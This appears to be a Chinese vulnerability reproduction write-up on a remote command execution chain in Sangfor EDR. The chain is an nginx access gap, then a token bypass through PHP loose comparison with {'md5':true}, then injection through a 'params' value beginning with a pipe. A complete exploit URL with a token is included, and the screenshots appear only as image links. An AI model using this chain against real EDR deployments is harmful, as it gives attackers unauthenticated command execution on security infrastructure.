 深信服 终端检测相应平台（EDR） 任意命令执行漏洞（二）
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

深信服EDR 3.2.16

深信服EDR 3.2.17

深信服EDR 3.2.19

三、复现过程
------------

![1.jpg](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId24.jpg)

dev\_linkage\_launch.php
为设备联动的新入口点主要是将联动的接口构造成业务统一处理的接口

主要调用

![2.jpg](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId25.jpg)

跟进

![3.jpg](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId26.jpg)

可以看到 第一个检查为 \$req\_url = \$\_SERVER\['PHP\_SELF'\];

绕过第一个检查:

在他们系统nginx配置文件里面:

![4.jpg](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId27.jpg)

**通过nginx规则可以得知**\*\*,**他们没有设置禁止外网访问**.\*\***从而可以直接访问**

/api/edr/sangforinter/v2/xxx 绕过 第一个检查

**第二检查**\*\*:\*\* **权限检查**

![5.jpg](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId28.jpg)

跟进check\_access\_token

![6.jpg](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId29.jpg)

**这里\*\*\*\*if(\$md5\_str == \$json\_token\["md5"\])**
**引发第二个漏洞**\*\*: php\*\*\*\*弱类型导致的漏洞\*\*

**绕过只需要传入一个base64编码的json内容为**
\*\*{"md5":true}\*\***即可**

**至此** **权限检查绕过完毕**

**来到** process\_cssp.php 文件

![7.jpg](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId30.jpg)

存在任意指令执行漏洞.作者试图使用escapeshellarg函数去给单引号打反斜杠实际上是毫无作用的.`https://www.0-sec.org:8443//api/edr/sangforinter/v2/cssp/slog_client?token=eyJyYW5kb20iOiIxIiwgIm1kNSI6ImM0Y2E0MjM4YTBiOTIzODIwZGNjNTA5YTZmNzU4NDliIn0=`

绕过:`{“params”:”|命令”}`

结果如下:

![WechatIMG18.jpeg](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId31.jpg)
